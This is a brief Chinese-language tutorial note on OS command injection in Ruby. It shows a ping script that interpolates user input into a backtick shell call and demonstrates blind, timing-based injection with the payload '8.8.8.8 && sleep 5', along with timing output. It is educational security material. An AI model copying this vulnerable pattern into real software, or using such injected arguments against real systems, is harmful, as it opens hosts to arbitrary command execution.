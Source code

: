 



#### ping 注入

`ping.rb`

`puts ping -c 4 #{ARGV[0]}` 



正常测试  

`time  ruby ping.rb '8.8.8.8'`

 0.09s user 0.04s system 4% cpu 3.176 total 

输出 ping 的时间  3秒

尝试sleep注入

time ruby ping.rb '8.8.8.8 && sleep 5' 

0.10s user 0.04s system 1% cpu 8.182 total 



#### ping 多参注入

```
puts `ping -c 4 #{ARGV[0]}`.include?('bytes from') ? 'yes' : 'no' 
```



```
$ ruby server-on.rb '8.8.8.8' 

yes 

$ ruby server-on.rb '8.8.8.7' 

no 
```

```
$ time ruby server-online.rb '8.8.8.8'

 yes

 0.10s user 0.04s system 4% cpu 3.174 total 

$ time ruby server-online.rb '8.8.8.8 && sleep 5'

 yes 

0.10s user 0.04s system 1% cpu 8.203 total 
```



同样的 

